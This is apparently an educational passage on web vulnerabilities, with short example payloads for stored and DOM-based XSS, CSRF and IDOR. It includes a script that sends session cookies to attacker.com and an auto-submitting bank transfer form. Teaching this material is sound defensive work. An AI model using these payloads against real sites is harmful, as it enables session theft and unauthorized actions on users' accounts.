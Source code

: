 ```xml
User submits a comment: "<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>"
```

The malicious comment is stored in the database and executed whenever a user views the comment, potentially stealing their session cookie.

Example 3: DOM-based XSS in a URL fragment

```xml
https://example.com/page#<img src=x onerror=alert('XSS');>
```

In this example, the URL fragment is used to update the page's content using JavaScript, which doesn't properly sanitize the input, leading to code execution.

#### 2\. Cross-Site Request Forgery (CSRF)

Example 1: Changing a user's email address

```html
<img src="https://example.com/changeEmail?newEmail=attacker@email.com" width="0" height="0" />
```

The attacker creates an image tag with the source URL set to the email change endpoint, causing the victim's browser to send a request to change their email address without their consent.

Example 2: Transferring funds between bank accounts

```html
<form action="https://bank.com/transfer" method="POST" id="csrf-form">
  <input type="hidden" name="toAccount" value="attacker_account" />
  <input type="hidden" name="amount" value="1000" />
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

The attacker embeds this form in a malicious website, which submits a fund transfer request when visited by a logged-in bank user.

Example 3: Liking a social media post without user consent

```html
<img src="https://socialmedia.com/likePost?postId=12345" width="0" height="0" />
```

The attacker uses an image tag to send a request to like a specific post on behalf of the victim without their consent.

#### 3\. Insecure Direct Object References (IDOR)

Example 1: Accessing another user's bank account

```bash
https://bank.com/account?accountId=12345
```

An attacker changes the `accountId` parameter to access another user's account data without authorization.
